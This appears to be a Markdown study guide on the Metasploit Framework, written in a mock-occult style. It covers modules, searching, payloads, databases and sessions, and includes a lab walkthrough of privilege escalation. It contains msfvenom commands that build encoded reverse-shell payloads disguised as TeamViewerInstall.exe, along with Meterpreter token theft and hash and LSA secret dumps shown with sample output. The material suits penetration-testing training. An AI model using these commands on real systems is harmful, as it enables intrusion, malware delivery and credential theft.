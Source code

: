 
# 🕷️ Metasploit Framework  
*Within this eldritch grimoire lies a vast arsenal of arcane tools for network divination, weaving attacks, and unraveling the deepest secrets of target systems. Harness its dark power to evade the watchful eyes, ascend to forbidden privileges, and command dominion after the breach.*

> *“To command the shadows is to master the unseen forces that bind the network.”*

<details>
<summary><h2>⚠️ Warnings to the Seeker of Shrouded Truth ⚠️</h2></summary>

**Do not get tunnel vision.**
> *Beware the madness that comes from gazing too long into a single artifact. The Framework is but one relic among many—do not let it become your crutch or your altar. Use it with intent, not dependence.*

**Please read all the technical documentation you can find for any of our tools.**
> *Before invoking forgotten runes, one must study the glyphs etched in the margins of the old tomes. Knowledge is the warding circle that keeps the daemon in the cage. Read. Absorb. Comprehend.*

**Many tools can prove to be unpredictable.**
> *Every incantation comes with a price. Some conjurations may awaken watchers, leaving ghostly footprints across the target's domain. Others may tear open rifts in your own sanctum. Always proceed with wards in place and a retreat mapped.*

</details>

---

<details>
<summary><h2>📥 Installation</h2></summary>

The official Metasploit Repository can be found [here](https://github.com/rapid7/metasploit-framework/).  

**Install**

```bash
sudo apt update && sudo apt install metasploit-framework
```

**Verify installation**

```bash
msfconsole -q
```

</details>

---

<details>
<summary><h2>📜 Introduction</h2></summary>

**Modules**

```bash
ls /usr/share/metasploit-framework/modules
```  

**Plugins**

```bash
ls /usr/share/metasploit-framework/plugins/
```  

**Scripts**

```bash
ls /usr/share/metasploit-framework/scripts/
```  

**Tools**

```bash
ls /usr/share/metasploit-framework/tools/
```  

</details>

---

<details>
<summary><h2>🧩 MSF Components</h2></summary>

<details>
<summary><h3>Modules</h3></summary>

Metasploit modules are pre-built scripts designed for specific tasks, each with corresponding functions that have been thoroughly developed and tested in real-world scenarios.

Within the msfconsole, users can choose from a comprehensive collection of available Metasploit modules. These modules are organized into folders, displayed in the following structure:

**Syntax**  

```bash
<No.> <type>/<os>/<service>/<name>
```  

**Example**  

```bash
794   exploit/windows/ftp/scriptftp_list
```  

<details>
<summary><h4>Explanation</h4></summary>

**Index No.**

The No. tag will be displayed to select the exploit we want afterward during our searches.

**Type**

The **Type** tag categorizes Metasploit modules at the highest level. By examining this field, we can determine the module’s intended function. Some types—such as exploit modules—are not directly executable but exist for structural and organizational purposes.

The table below consolidates all possible module types, their descriptions, and indicates whether they can be directly interacted with (e.g., via **use <no.>**).

| Type      | Description                                                                                   | Interactable |
|-----------|-----------------------------------------------------------------------------------------------|--------------|
| Auxiliary | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.| ✅           |
| Encoders  | Ensure that payloads are intact to their destination.                                         | ❌           |
| Exploits  | Exploit a vulnerability that allows for payload delivery.                                     | ✅           |
| NOPs      | (No Operation code) Keep payload sizes consistent across exploit attempts.                    | ❌           |
| Payloads  | Code that runs remotely and calls back to the attacker to establish a connection or shell.    | ❌           |
| Plugins   | Additional scripts integrated within assessments via `msfconsole`.                            | ❌           |
| Post      | Modules for information gathering, pivoting deeper into the network, and more.                | ✅           |

**OS**  

The OS tag indicates the target operating system and architecture for which the module was designed. Since different operating systems require distinct code execution methods, this tag ensures compatibility with the intended environment.

**Service**  

The Service tag identifies the vulnerable service running on the target machine. However, for certain modules (e.g., auxiliary or post), this tag may represent a broader action—such as _gather_—which refers to activities like credential collection.

**Name**

The Name tag describes the module's core function—the specific action it performs for its intended purpose.

</details>

<details>
<summary><h4>Search</h4></summary>

Search function

```bash
msf6 > help search
```  

Searching for a module

```bash
msf6 > search eternalblue
```  

Specific search

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```  

Specific payload search

```bash
msf6 > grep meterpreter show payloads
```

Even more specific search

```bash
msf6 > grep meterpreter grep reverse_tcp show payloads
```

</details>

<details>
<summary><h4>Select</h4></summary>

Select Module

```bash
msf6 > use 0
```  

Show options

```bash
msf6 > options
```  

</details>

<details>
<summary><h4>Set</h4></summary>

**Target Specification**

```bash
msf6 > set RHOSTS <TARGET IP>
```  

**Permanent Target Specification**

```bash
msf6 > setg RHOSTS <TARGET IP>
```  

**Target Port Specification**

```bash
msf6 > set RPORT <TARGET PORT>
```  

**Attacker IP specification**

```bash
msf6 > set LHOST <ATTACKER IP>
```  

**Permanent Attacker IP specification**

```bash
msf6 > setg LHOST <ATTACKER IP>
```  

**Attacker Port Specification**

```bash
msf6 > set LPORT <ATTACKER PORT>
```  

</details>

<details>
<summary><h4>Information</h4></summary>

Show info

```bash
msf6 > info
```  

</details>

<details>
<summary><h4>Exploit Execution</h4></summary>

Execute

```bash
msf6 > run
```

</details>

</details>


<details>
<summary><h3>Common Payloads</h3></summary>

The table below contains the most common payloads used for Windows machines and their respective descriptions.


| Payload                             | Description                                                                 |
|-------------------------------------|-----------------------------------------------------------------------------|
| generic/custom                      | Generic listener, multi-use                                                |
| generic/shell_bind_tcp              | Generic listener, multi-use, normal shell, TCP connection binding          |
| generic/shell_reverse_tcp           | Generic listener, multi-use, normal shell, reverse TCP connection          |
| windows/x64/exec                    | Executes an arbitrary command (Windows x64)                                |
| windows/x64/loadlibrary             | Loads an arbitrary x64 library path                                        |
| windows/x64/messagebox              | Spawns a dialog via MessageBox with customizable title, text & icon        |
| windows/x64/shell_reverse_tcp       | Normal shell, single payload, reverse TCP connection                       |
| windows/x64/shell/reverse_tcp       | Normal shell, stager + stage, reverse TCP connection                       |
| windows/x64/shell/bind_ipv6_tcp     | Normal shell, stager + stage, IPv6 Bind TCP stager                         |
| windows/x64/meterpreter/$           | Meterpreter payload + varieties above                                      |
| windows/x64/powershell/$            | Interactive PowerShell sessions + varieties above                          |
| windows/x64/vncinject/$             | VNC Server (Reflective Injection) + varieties above  

</details>

<details>
<summary><h3>Targets</h3></summary>

The **Target** field specifies particular operating system versions that the exploit module has been adapted to work with. These unique OS identifiers allow the module to customize its execution for specific system versions.

**Show Targets**  

```bash
msf6 > show targets
```

Regular output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
```

Exploit-specific output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
#    1   IE 7 on Windows XP SP3
#    2   IE 8 on Windows XP SP3
#    3   IE 7 on Windows Vista
#    4   IE 8 on Windows Vista
#    5   IE 8 on Windows 7
#    6   IE 9 on Windows 7
```

**Select Targets**  

```bash
msf6 > set target 6
```

</details>

<details>
<summary><h3>Payloads</h3></summary>

In Metasploit, a payload is a module that enables successful exploitation, typically by establishing a shell session for the attacker. 

**Show all payloads**

```bash
msf6 > show payloads
```

The framework provides three distinct payload types:


<details>
<summary><h4>1. Singles</h4></summary>

A _Single_ payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. A Single payload can be as simple as adding a user to the target system or booting up a process.
</details>

<details>
<summary><h4>2. Stagers</h4></summary>

_Stager_ payloads work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. Stagers are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable.  

</details>

<details>
<summary><h4>3. Stages</h4></summary>

_Stages_ are payload components that are downloaded by stager's modules.  

Payload stages automatically use middle stagers:

* A single recv() fails with large payloads
* The Stager receives the middle stager
* The middle Stager then performs a full download
* Also better for RWX

</details>

</details>

<details>
<summary><h3>Staged Payloads</h3></summary>

A staged payload modularizes the exploitation process by separating functionality into discrete components. Each stage performs specific tasks while chaining together to execute the complete attack.

Like all payloads, its objectives are twofold:

1. Establish shell access on the target system

2. Maintain minimal footprint to evade AV/IPS detection

**Connection Methodology:**

* Stage 0 (Reverse Connection):

    * The victim host initiates contact back to the attacker

    * Lower detection risk as the connection originates from within the target's security trust zone

    * Establishes initial communication channel

* Stage 1 (Shell Access):

    * After stable connection is established

    * Attacker delivers the larger, more functional payload component

    * Typically provides full shell access and control

<details>
<summary><h4>Meterpreter Payload</h4></summary>

The Meterpreter payload is a specific type of multi-faceted payload that:

- Uses **DLL injection** to establish a stable and covert connection with the victim host.
- Is designed to be **difficult to detect** using simple or conventional system checks.
- Maintains **persistence** across system reboots or changes (depending on configuration).
- Resides **entirely in memory**, leaving **no traces on the hard drive**.
- Evades many **traditional forensic detection techniques**.
- Allows **dynamic loading and unloading of scripts and plugins** during runtime.

</details>

</details>

<details>
<summary><h3>Encoders</h3></summary>

Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. These architectures include:

- x64
- x86
- sparc
- ppc
- mips

Encoders were packed separately from the msfconsole script and were called **msfpayload** and **msfencode**. These two tools are located in _/usr/share/framework2/_.

**Generating Payload - Without Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b "\x00" -f perl
```  

**Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b "\x00" -f perl -e x86/shikata_ga_nai
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe running it through multiple iterations**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -e x86/shikata_ga_nai -f exe -i 10 -o ./TeamViewerInstall.exe
```  

As anticipated, most commercial antivirus solutions can detect these payloads during real-world engagements. Therefore, additional evasion techniques become necessary to bypass modern endpoint protection systems.

</details>

<details>
<summary><h3>Databases</h3></summary>

The Metasploit Framework utilizes databases within msfconsole to systematically store and manage penetration testing results. The system features native PostgreSQL integration, providing:

**Key Benefits:**

* Instant access to scan results and historical data

* Efficient data management through direct database interaction

* Seamless import/export functionality for integration with external tools

<details>
<summary><h4>Setting up the Database</h4></summary>

**PostgreSQL Status**

```bash
sudo service postgresql status
```  

**Start PostgreSQL**
```bash
sudo systemctl start postgresql
```  

**Initiate a Database**
```bash
sudo apt-get upgrade metasploit-framework
sudo msfdb init
```  

**MSF - Database Status**

```bash
sudo msfdb status
``` 

**MSF - Connect to the Initiated Database**  

```bash
sudo msfdb run
``` 

If your database is already configured but you're unable to modify the MSF user password, use the following command sequence:

**MSF - Reinitiate the Database**

```bash
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q
``` 

**MSF - msf6 Database Status**

```bash
msf6 > db_status
``` 

**MSF - Database Options**  

```bash
msf6 > help database
``` 

**MSF - Using Nmap Inside MSFconsole**  

```bash
msf6 > db_nmap -sV -sS <TARGET IP>
``` 

**MSF - Review scan results**  

```bash
msf6 > hosts -h
msf6 > services -h
msf6 > creds -h
msf6 > loot -h
``` 

**MSF - Database Backup**  

```bash
msf6 > db_export -f xml backup.xml
``` 

</details>

</details>

<details>
<summary><h3>Plugins</h3></summary>

Metasploit plugins interact directly with the framework’s API, enabling deep integration and control. They serve three primary purposes:

* Automation – Streamline repetitive tasks

* Extensibility – Add custom commands to msfconsole

* Enhancement – Expand the framework’s built-in capabilities

**Listing plugins**  

```bash
ls /usr/share/metasploit-framework/plugins
``` 

**MSF - Load Plugin**  

```bash
msf6 > load nessus
msf6 > nessus_help
``` 

**Downloading plugins**  

```bash
git clone https://github.com/darkoperator/Metasploit-Plugins
ls Metasploit-Plugins
``` 

**MSF - Copying Plugin to MSF**  

```bash
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
``` 

**MSF - Load the new plugin**  

```bash
msf6 > load pentest
msf6 > help
``` 

</details>

</details>

---

<details>
<summary><h2>🤝 MFS Sessions</h2></summary>

<details>
<summary><h3>Sessions</h3></summary>

**Multi-Session Management in MSFconsole**

MSFconsole supports concurrent management of multiple modules and sessions. Key capabilities include:

1. Session Switching – Seamlessly transition between active sessions

2. Module Linking – Attach new modules to backgrounded sessions

3. Job Conversion – Convert sessions into persistent background jobs

**Important Notes:**

* Backgrounded sessions maintain active connections to target hosts

* Sessions may terminate unexpectedly due to:

    * Payload execution failures

    * Communication channel disruptions

**Backgrounding Sessions in MSFconsole**  

Active sessions can be backgrounded when they maintain communication with the target host. This allows operators to:

* Preserve established connections

* Switch between multiple engagements

* Deploy additional modules without session interruption

**Backgrounding Methods:**

1. Keyboard Shortcut: CTRL+Z (Universal)

2. Meterpreter Command: meterpreter > bg

**Process Flow:**

1. Initiate background request

2. Confirm action via prompt

3. Return to msf6

4. Immediately deploy new modules

**Listing Active Sessions**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions
```  

**Interacting with a Session**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
``` 

</details>

<details>
<summary><h3>Jobs</h3></summary>

When an active exploit occupies a port needed for another module, improper termination (e.g., CTRL+C) leaves the port bound. Instead, follow this procedure:

**1. Check Active Jobs**

```bash
msf6 > jobs -l
``` 

**2. Terminate Conflicts**

```bash
msf6 > jobs -k <ID>
``` 

**Jobs Command Help Menu**  

```bash
msf6 > jobs -h
``` 

**Running an Exploit as a Background Job**  

```bash
msf6 > exploit -j
``` 

</details>

<details>
<summary><h3>Meterpreter</h3></summary>

The Meterpreter payload is an advanced, modular attack platform that employs sophisticated techniques to maintain stealth and persistence:

<details>
<summary><h4>Objectives</h4></summary>

* Provide a stable, extensible platform for internal host enumeration

* Facilitate rapid privilege escalation path discovery

* Enable advanced defensive evasion techniques

</details>

<details>
<summary><h4>Capabilites</h4></summary>

* Utilizes reflective DLL injection for stable, low-detectability implants

* Supports memory-only operation (no disk artifacts)

* Features configurable persistence mechanisms

</details>

<details>
<summary><h4>Operational Advantages</h4></summary>

1. Stealth Characteristics

    * No traditional process spawning

    * Avoids disk writes (in-memory execution only)

    * Encrypted communications channel

2. Persistence Options

    * Survives system reboots when properly configured

    * Maintains sessions through network changes

    * Supports migration between processes

3. Extended Functionality

    * Modular architecture for on-demand capability expansion

    * Built-in privilege escalation techniques

    * Comprehensive post-exploitation toolkit
</details>

<details>
<summary><h4>Using Meterpreter</h4></summary>

Displays a list of available Meterpreter commands and their descriptions.

```bash
meterpreter > help
``` 

Shows the current user (UID) that the Meterpreter session is running under.

```bash
meterpreter > getuid
``` 

Lists all running processes on the target system, including PIDs and owners.

```bash
meterpreter > ps
``` 

Steals the security token from a specified process (PID 1836) to impersonate its privileges.

```bash
meterpreter > steal_token 1836
``` 

Dumps the password hashes of all local user accounts (stored in the SAM database).

```bash
meterpreter > hashdump
``` 

Extracts and displays password hashes from the Security Account Manager (SAM) via the LSASS process.

```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam
``` 

Retrieves encrypted secrets (like cached credentials and auto-login passwords) from the LSASS memory.

```bash
meterpreter > lsa_dump_secrets
``` 

</details>

<details>
<summary><h4>Example Compromise Walkthrough</h4></summary>



**MSF - Meterpreter Migration**

```bash
meterpreter > getuid
# [-] 1055: Operation failed: Access is denied.

meterpreter > ps
# Process List
# ============
# 
#  PID   PPID  Name               Arch  Session  User                          Path
#  ---   ----  ----               ----  -------  ----                          ----
#  0     0     [System Process]                                                
#  4     0     System                                                  #         
#  216   1080  cidaemon.exe                                                    
#  272   4     smss.exe                                                     #    
#  292   1080  cidaemon.exe                                                    
# <...SNIP...>

# 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe


meterpreter > steal_token 1836
# Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid

# Server username: NT AUTHORITY\NETWORK SERVICE

``` 

**MSF - Meterpreter Migration**
```bash
meterpreter > bg

# Background session 1? [y/N]  y

msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

# Matching Modules
# ================
# 
#    #  Name                                      Disclosure Date  Rank    Check  Description
#    -  ----                                       ---------------  ----    -----  -----------
#    0  post/multi/recon/ local_exploit_suggester                   normal   No     Multi Recon Local Exploit Suggester

msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

# Module options (post/multi/recon/local_exploit_suggester):
# 
#    Name             Current Setting  Required  Description
#    ----             ---------------  --------  -----------
#    SESSION                           yes       The session to run this module on
#    SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

# SESSION => 1

msf6 post(multi/recon/local_exploit_suggester) > run

# [*] 10.10.10.15 - Collecting local exploits for x86/windows...
# [*] 10.10.10.15 - 34 exploit checks are being tried...
# [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
# [*] Post module execution completed 

msf6 post(multi/recon/local_exploit_suggester) > 
```

**MSF - Privilege Escalation**

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

# [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

# Module options (exploit/windows/local/ms15_051_client_copy_image):

#    Name     Current Setting  Required  Description
#    ----     ---------------  --------  -----------
#    SESSION                   yes       The session to run this module on.


# Payload options (windows/meterpreter/reverse_tcp):

#    Name      Current Setting  Required  Description
#    ----      ---------------  --------  -----------
#    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
#    LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
#    LPORT     4444             yes       The listen port


# Exploit target:

#    Id  Name
#    --  ----
#    0   Windows x86

msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1

# SESSION => 1

msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

# LHOST => tun0

msf6 exploit(windows/local/ms15_051_client_copy_image) > run

# [*] Started reverse TCP handler on 10.10.14.26:4444 
# [*] Launching notepad to host the exploit...
# [+] Process 844 launched.
# [*] Reflectively injecting the exploit DLL into 844...
# [*] Injecting exploit into 844...
# [*] Exploit injected. Injecting payload into 844...
# [*] Payload injected. Executing exploit...
# [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
# [*] Sending stage (175174 bytes) to 10.10.10.15
# [*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000

meterpreter > getuid

# Server username: NT AUTHORITY\SYSTEM

``` 

**MSF - Dumping Hashes**

```bash
meterpreter > hashdump

# Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
# ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
# IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
# Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
# SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::

meterpreter > lsa_dump_sam

# [+] Running as SYSTEM
# [*] Dumping SAM
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
# Local SID : S-1-5-21-1709780765-3897210020-3926566182

# SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

# RID  : 000001f4 (500)
# User : Administrator
#   Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
#   Hash NTLM: d6908f022af0373e9e21b8a241c86dca

# RID  : 000001f5 (501)
# User : Guest

# RID  : 000003e9 (1001)
# User : SUPPORT_388945a0
#   Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

# RID  : 000003eb (1003)
# User : IUSR_GRANPA
#   Hash LM  : a274b4532c9ca5cdf684351fab962e86
#   Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

# ...
```

**MSF - Meterpreter LSA Secrets Dump**

```bash
meterpreter > lsa_dump_secrets

# [+] Running as SYSTEM
# [*] Dumping LSA secrets
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

# Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
# Domain name : HTB

# Policy subsystem is : 1.7
# LSA Key : ada60ee248094ce782807afae1711b2c

# Secret  : aspnet_WP_PASSWORD
# cur/text: Q5C'181g16D'=F

# Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
# cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

# Secret  : DPAPI_SYSTEM
# cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
#     full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
#     m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

# Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
# cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 4f e5 21 00 39 0c 35 87 88 f2 51 41 e2 2a e0 01 83 a4 27 92 b5 30 12 aa 70 08 24 7c 0e de f7 b0 22 69 1e 70 97 6e 97 61 d9 9f 8c 13 fd 84 dd 75 37 35 61 89 c8 00 00 00 00 00 00 00 00 97 a5 33 32 1b ca 65 54 8e 68 81 fe 46 d5 74 e8 f0 41 72 bd c6 1e 92 78 79 28 ca 33 10 ff 86 f0 00 00 00 00 45 6d d9 8a 7b 14 2d 53 bf aa f2 07 a1 20 29 b7 0b ac 1c c4 63 a4 41 1c 64 1f 41 57 17 d1 6f d5 00 00 00 00 59 5b 8e 14 87 5f a4 bc 6d 8b d4 a9 44 6f 74 21 c3 bd 8f c5 4b a3 81 30 1a f6 e3 71 10 94 39 52 00 00 00 00 9d 21 af 8c fe 8f 9c 56 89 a6 f4 33 f0 5a 54 e2 21 77 c2 f4 5c 33 42 d8 6a d6 a5 bb 96 ef df 3d 00 00 00 00 8c fa 52 cb da c7 10 71 10 ad 7f b6 7d fb dc 47 40 b2 0b d9 6a ff 25 bc 5f 7f ae 7b 2b b7 4c c4 00 00 00 00 89 ed 35 0b 84 4b 2a 42 70 f6 51 ab ec 76 69 23 57 e3 8f 1b c3 b1 99 9e 31 09 1d 8c 38 0d e7 99 57 36 35 06 bc 95 c9 0a da 16 14 34 08 f0 8e 9a 08 b9 67 8c 09 94 f7 22 2e 29 5a 10 12 8f 35 1c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

# Secret  : L$RTMTIMEBOMB_1320153D-8DA3-4e8e-B27B-0D888223A588
# cur/hex : 00 f2 d1 31 e2 11 d3 01 

# Secret  : L$TermServLiceningSignKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

```

</details>

</details>

</details>

---

<details>
<summary><h2>➕ Additional Features</h2></summary>

<details>
<summary><h3>Writing & Importing Modules</h3></summary>

<details>
<summary><h4>Full Upgrade</h4></summary>

To incorporate community-developed modules into your Metasploit installation:

Execute:

```bash
msfupdate
``` 

This fetches all newly integrated:

* Exploit modules

* Auxiliary components

* Framework enhancements

</details>

<details>
<summary><h4>Manual</h4></summary>

1. Source Selection

    * Prioritize ExploitDB for verified modules

    * Filter using the "Metasploit Framework (MSF)" tag to ensure compatibility

2. Installation

Download module:

```bash
wget <EXPLOIT URL> -O /usr/share/metasploit-framework/modules/exploits/<CATEGORY>/<EXPLOIT>
``` 

3. Verification

Search within msfconsole:

```bash
msf6 > search type:exploit <module_name>
``` 

</details>

</details>

<details>
<summary><h3>Introduction to MSFVenom</h3></summary>

Text

</details>

<details>
<summary><h3>Firewall and IDS/IPS evasion</h3></summary>

Text

</details>

</details>

---

📘 **Next step:** Continue with [PASSWORD ATTACKS](./07-password-attacks.md)
